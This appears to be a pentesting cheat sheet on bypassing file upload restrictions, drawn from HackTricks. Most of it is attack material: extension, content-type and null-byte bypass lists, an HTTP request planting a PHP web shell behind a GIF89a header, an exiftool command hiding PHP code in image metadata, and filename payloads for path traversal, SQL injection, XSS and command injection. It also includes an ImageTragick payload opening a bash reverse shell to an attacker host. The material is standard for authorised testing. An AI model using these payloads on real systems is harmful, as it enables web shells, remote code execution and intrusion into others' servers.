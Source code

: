 # File Upload

## Bypass File Upload

1.Bypass content-type check
```
Content-Type: application/x-php
Content-Type: application/octet-stream
Content-Type: text/plain
Content-Type: image/png
Content-Type: image/jpeg
```

2.Bypass file extension check
  - Using some uppercase letter: **pHp, pHP5, PhAr**
  - If the extension is validated, change it when send the request in burp
    ```
    filename="dapos.php.jpg" Change to => filename="dapos.php"
    ```
      or
    ```
    filename="dapos.jpg" Change to => filename="dapos.jpg.php"
    ```
  - Try adding special characters at the end, you could use burp intruder to bruteforce all the ASCII and Unicode character
    - file.php%20
    - file.php%0a
    - file.php%00
    - file.php%0d%0a
    - file.php/
    - file.php.\
    - file.
    - file.php....
    - file.pHp5....
  - Try to bypass the protections tricking the extension parser ot the server-side by doubling the extension or adding junk data (null bytes) between extension
    - file.png.php
    - file.png.pHp5
    - file.php%00.png
    - file.php\x00.png
    - file.php%0a.png
    - file.php%0d%0a.png
    - file.phpJunk123png
    - file.php\x00.jpg
    - This technique can be used in tricky situations where the standard null byte injection won't work. This can also be accomplished with Burp and modifying the hex request. Name the file shell.phpD.jpg — we'll replace the D character with a null character during the request. When uploading the file, intercept the request, go to the hex tab, and find the hex representation of the D character, Simply replace the 44 with 00 and send the request through
  - Add another layer of extensions
    - file.png.jpg.php
    - file.php%00.png%00.jpg
  - Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “::$data” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
3.Bypass with file type headers. Usually, if an upload function accepts images, it will accept GIF files as well. We can add GIF89a; to the beginning of the shell to trick the upload
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```
And dont forget to change the content-type to image/gif

## Other Tricks

1. Rename the uploaded file (to change extension or another vulnerability\
2. Upload an executable (.exe) or an .html (less suspicious) that will execute code when accidentally opened by victim
3. Possible Information disclosure
   - Upload several times (and at the same time) the same file with the same name
   - Upload a file with the name of a file or folder that already exists
   - Uploading a file with “.”, “..”, or “…” as its name. For instance, in Apache in Windows, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
   - Upload a file that may not be deleted easily such as “…:.jpg” in NTFS. (Windows)
   - Upload a file in Windows with invalid characters such as |<>*?” in its name. (Windows)
   - Upload a file in Windows using reserved (forbidden) names such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
4. If the uploaded file in PHP server use **.htaccess** trick to execute the code
   - [Tools for .htaccess shell attack](https://github.com/wireghoul/htshells)
5. If the uploaded file in ASP server use **.config** trick to execute the code
   - [poc](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c)
   - [poc2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config)
6. In some occasions you may find that a server is using wget to download files and you can indicate the URL. In these cases, the code may be checking that the   extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, this check can be bypassed. The maximum length of a filename in linux is 255, however, wget truncate the filenames to 236 characters. You can download a file called "A"*232+".php"+".gif", this filename will bypass the check (as in this example ".gif" is a valid extension) but wget will rename the file to "A"*232+".php".Note that another option you may be thinking of to bypass this check is to make the HTTP server redirect to a different file, so the initial URL will bypass the   check by then wget will download the redirected file with the new name. This won't work unless wget is being used with the parameter --trust-server-names because wget will download the redirected page with the name of the file indicated in the original URL
  ```
  #Create file and HTTP server
  echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
  python3 -m http.server 9080
  ```
  ```
  #Download the file
  wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
  The name is too long, 240 chars total.
  Trying to shorten...
  New name is   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
   --2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
  Connecting to 127.0.0.1:9080... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 10 [image/gif]
  Saving to:  ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

  AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

  2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
  ```
7. Set filename to ../../../tmp/lol.png and try to achieve a path traversal
8. Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
9. Set filename to <svg onload=alert(document.comain)> to achieve a XSS
10. Set filename to ; sleep 10; to test some command injection
11. ImageTragic
    - Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)
         ```
         push graphic-context
      viewbox 0 0 640 480
      fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
      pop graphic-context
        ```
  
## What can achive by uploading
  
1. **ASP / ASPX / PHP5 / PHP / PHP3**: Webshell / RCE
2. **SVG**: Stored XSS / SSRF / XXE
3. **GIF**: Stored XSS / SSRF
4. **CSV**: CSV injection
5. **XML**: XXE
6. **AVI**: LFI / SSRF
7. **HTML / JS**: HTML injection / XSS / Open redirect
8. **PNG / JPEG**: Pixel flood attack (DoS)
9. **ZIP**: RCE via LFI / DoS
10. **PDF / PPTX**: SSRF / BLIND XXE
  
## Usefull extension
  
- **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
- **ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- **Jsp**: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- **Coldfusion**: .cfm, .cfml, .cfc, .dbm
- **Flash**: .swf
- **Perl**: .pl, .cgi
- **Erlang** Yaws Web Server: .yaws
  
## Exif data
  We can insert a comment that contains PHP code that will be executed by server when the image is processed
  ```
  exiftool -Comment="<?php system($_GET['cmd']); ?>" pic.jpg
  ```
  
## Reference
  
- https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick
